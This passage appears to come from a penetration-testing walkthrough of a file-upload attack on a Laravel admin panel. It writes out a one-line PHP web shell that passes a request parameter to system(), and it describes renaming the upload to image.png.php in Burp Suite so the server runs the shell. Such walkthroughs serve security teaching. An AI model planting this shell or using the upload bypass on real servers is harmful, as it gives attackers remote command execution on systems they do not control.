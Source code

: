 ![exploit in laravel admin](/assets/images/Usage/exploit-in-laravel-admin.png)

I will replicate it by creating a image.png file with the following contents:

```php
<?php
  system($_REQUEST["cmd"]);
?>
```

Now intercept the request with burpsuite and change `image.png` to `image.png.php`:

![upload exploit request laravel admin](/assets/images/Usage/upload-exploit-request-laravel-admin.png)
